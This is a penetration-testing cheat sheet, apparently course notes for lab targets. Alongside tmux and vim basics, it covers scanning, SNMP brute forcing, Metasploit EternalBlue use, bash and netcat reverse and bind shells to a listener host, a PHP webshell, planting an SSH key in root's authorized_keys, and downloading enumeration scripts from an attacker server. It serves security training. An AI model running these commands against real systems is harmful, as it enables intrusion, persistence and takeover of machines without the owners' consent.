 ```yaml
---
description: >-
  Here are some of the most common terms and technologies that we will come
  across repeatedly and must have a firm grasp of. This is not an exhaustive
  list but is enough to get started with.
---
```


# Common Terms (Cheat Sheet)



### General

```powershell
sudo openvpn user.ovpn ##Connect to VPN
ifconfig/ip a ##Show our IP address
netstat -rn ##Show networks accessible via the VPN
ssh user@10.10.10.10 ## SSH to a remote server
ftp 10.129.42.253
```

### TMUX

```powershell
tmux ## Start tmux
ctrl+b ## tmux: default prefix
prefix c ## tmux: new window
prefix 1 ## tmux: switch to window (1)
prefix shift++% ## tmux: split pane vertically
prefix shift+" ## tmux: split pane horizontally
prefix -> ## tmux: switch to the right pane
```

### Vim

```powershell
vim file	vim: open file with vim
esc+i	## vim: enter insert mode
esc	## vim: back to normal mode
x	## vim: Cut character
dw	## vim: Cut word
dd	## vim: Cut full line
yw	## vim: Copy word
yy	## vim: Copy full line
p	## vim: Paste
:1	## vim: Go to line number 1.
:w	## vim: Write the file 'i.e. save'
:q	## vim: Quit
:q!	## vim: Quit without saving
:wq	## vim: Write and quit
```

[Vim Cheat Sheet](https://vimsheet.com/) - [Advanced Vim Cheat Sheet](https://vimsheet.com/advanced.html)

## Pentesting Commands

### Service Scanning

<pre class="language-powershell"><code class="lang-powershell"><strong>nmap 10.129.42.253	##Run nmap on an IP
</strong>nmap -sV -sC -p- 10.129.42.253	##Run an nmap script scan on an IP
locate scripts/citrix	##List various available nmap scripts
nmap --script smb-os-discovery.nse -p445 10.10.10.40	##Run an nmap script on an IP
netcat 10.10.10.10 22	##Grab banner of an open port
smbclient -N -L \\\\10.129.42.253	##List SMB Shares
smbclient \\\\10.129.42.253\\users	##Connect to an SMB share
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0	##Scan SNMP on an IP
onesixtyone -c dict.txt 10.129.42.254	##Brute force SNMP secret string
</code></pre>

### Web Enumeration

```powershell
gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt ## Run a directory scan on a website
gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt ##Run a sub-domain scan on a website
curl -IL https://www.inlanefreight.com	## Grab website banner
whatweb 10.10.10.121 ##List details about the webserver/certificates
curl 10.10.10.121/robots.txt ## List potential directories in robots.txt
ctrl+u ## View Page source (in Firefox)
```

### Public Exploits

```powershell
searchsploit openssh 7.2 ## Search for public exploits for a web application
msfconsole ##MSF: Start the Metasploit Framework
search exploit eternalblue ## MSF: Search for public exploits in MSF
use exploit/windows/smb/ms17_010_psexec	MSF: ## Start using an MSF module
show options ## MSF: Show required options for an MSF module
set RHOSTS 10.10.10.40 ## MSF: Set a value for an MSF module option
check ## MSF: Test if the target server is vulnerable
exploit ## MSF: Run the exploit on the target server is vulnerable
```

### Using Shells

```powershell
nc -lvnp 1234 ## Start a nc listener on a local port
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1' ## send a reverse shell from the remote server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f	##Another command to send a reverse shell from the remote server
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f ## Start a bind shell on the remote server
nc 10.10.10.1 1234 ## Connect to a bind shell started on the remote server
python -c 'import pty; pty.spawn("/bin/bash")'	## Upgrade shell TTY (1)
ctrl+z then stty raw -echo then fg then enter twice ## Upgrade shell TTY (2)
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php	##Create a webshell php file
curl http://SERVER_IP:PORT/shell.php?cmd=id ## Execute a command on an uploaded webshell
```

### Privilege Escalation

```powershell
./linpeas.sh ## Run linpeas script to enumerate remote server
sudo -l	## List available sudo privileges
sudo -u user /bin/echo Hello World! ## Run a command with sudo
sudo su - ## Switch to root user (if we have access to sudo su)
sudo su user - ## Switch to a user (if we have access to sudo su)
ssh-keygen -f key ## Create a new SSH key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys ## Add the generated public key to the user
ssh root@10.10.10.10 -i key ## SSH to the server with the generated private key
```

### Transfering Files

```powershell
python3 -m http.server 8000 ## Start a local webserver
wget http://10.10.14.1:8000/linpeas.sh ## Download a file on the remote server from our local machine
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh ## Download a file on the remote server from our local machine
scp linenum.sh user@remotehost:/tmp/linenum.sh ## Transfer a file to the remote server with scp (requires SSH access)
base64 shell -w 0 ## Convert a file to base64
echo f0VMR...SNIO...InmDwU | base64 -d > shell ## Convert a file from base64 back to its orig
md5sum shell ## Check the file's md5sum to ensure it converted correctly
```
